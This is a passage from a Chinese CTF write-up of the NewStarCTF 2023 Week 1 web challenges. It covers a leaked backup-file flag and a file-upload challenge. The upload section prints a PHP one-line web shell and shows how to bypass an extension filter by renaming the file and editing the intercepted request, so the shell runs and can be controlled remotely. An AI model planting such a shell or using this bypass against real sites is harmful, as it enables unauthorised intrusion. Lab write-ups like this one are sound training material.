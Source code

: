 # NewStarCTF2023-Week1-Web


# 写在前面

Web题目总共7题，截至10-1日晚本人做题情况为：

![image-20231002104444169](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231002104444169.png)

题目还是比较基础的，RCE的PHP非法字符是真的没有接触过，这也是比较有收获的一点。最后一题其实压根没往弱口令的方向去想，以后涉及到登录的题目第一想法肯定得是弱口令。

# 泄露的秘密

这题我压根没扫dir，试了一下www.zip结果就直接出来了。
![](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231002105427736.png)

![](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231002105325895.png)

一个是robot.txt一个是index.php

结果为：flag{r0bots_1s_s0_us3ful_4nd_www.zip_1s_s0_d4ng3rous}

## Begin of Upload

![](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231002105646430.png)

显然是需要上传马的。这里一定要看下前端有没有拦截：

![](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231002105726833.png)

发现有限制拓展名，那这里就先改名Jpg上传。暂时不知道后端有没有拦截，因此先试试直接改包

```php
<?php @eval($_POST['cmd']); ?>
```

将一句话木马保存为shell.jpg上传，抓包：

![](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231002110204238.png)

直接将后缀改为php，发现上传成功：

![](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231002110248283.png)

直接蚁剑连接就可拿到flag：

![](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231002110459278.png)

# Begin of HTTP
